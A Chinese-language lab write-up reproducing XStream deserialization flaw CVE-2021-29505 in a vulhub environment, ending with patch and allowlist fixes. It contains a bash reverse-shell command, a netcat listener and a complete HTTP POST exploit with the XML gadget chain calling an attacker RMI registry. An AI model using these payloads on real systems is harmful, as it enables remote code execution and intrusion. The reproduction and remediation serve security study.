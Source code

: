 

## 「xstream」CVE-2021-29505

## 简介

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

**编号：CVE-2021-29505**

XStream在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16及之前版本黑名单存在缺陷。攻击者可以操纵已处理的输入流并替换或注入对象，从而在服务器上执行本地命令。

## 影响版本

XStream <= 1.4.16

## 环境搭建

用docker拉取镜像：

执行如下命令启动一个SpringBoot+XStream的1.4.16的环境：

```bash
git clone https://github.com/vulhub/
cd xstream
cd cve-2021-29505
docker-compose up -d
```

然后访问本地8080端口：

![image-20210531090257672](http://imagesolo.oss-cn-beijing.aliyuncs.com/2021-05-31-010258.png)

简单测试：

![image-20210531094522268](http://imagesolo.oss-cn-beijing.aliyuncs.com/2021-05-31-014522.png)

## 漏洞复现

用ysoserial起一个恶意的RMI Registry

ysoserial项目地址 ：https://github.com/frohoff/ysoserial/releases

```bash
bash -i >& /dev/tcp/172.16.153.128/1234 0>&1
```

将需要执行的命令进行base64编码：http://www.jackson-t.ca/runtime-exec-payloads.html

开启监听1099端口：

![image-20210531092458191](http://imagesolo.oss-cn-beijing.aliyuncs.com/2021-05-31-012458.png)



同时vps开启接收反弹shell的监听端口：

```bash
nc -lvp 1234
```

exp如下：

```html
POST / HTTP/1.1
Host: 192.168.13.138:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 3121



<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>192.168.13.138</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>192.168.13.138</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

tips：

- 在post请求中加入content-type:application/xml。

- 修改监听的ip和端口。

发包：

![image-20210531095343194](http://imagesolo.oss-cn-beijing.aliyuncs.com/2021-05-31-015343.png)

成功回显：

![image-20210531095427939](http://imagesolo.oss-cn-beijing.aliyuncs.com/2021-05-31-015428.png)

## **漏洞修复**

漏洞源于类 ：sun.rmi.registry.RegistryImpl_Stub

- 将xstream升级到1.4.17或以上版本（修改maven pom.xml文件版本）

```Java
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.17</version>
</dependency>
```

- 使用XStream安全api设置反序列类的白名单。

  eg：

  ```Java
  
  XStream xstream = new XStream();
  //清除现有权限并启动白名单
  xstream.addPermission(NoTypePermission.NONE);
  //允许一些基础类
  xstream.addPermission(NullPermission.NULL);
  xstream.addPermission(PrimitiveTypePermission.PRIMITIVES);
  xstream.allowTypeHierarchy(Collection.class);
  //允许来自同一包的任何类型
  xstream.allowTypesByWildcard(new String[] {
      Blog.class.getPackage().getName()+".*"
  });
  // 允许自定义的业务类
  xstream.allowTypesHierarchy(Yewulei.class);
  Yewulei yw = (Yewulei)xstream.fromXML(new File("/tmp/yewu.xml"));
  ```

  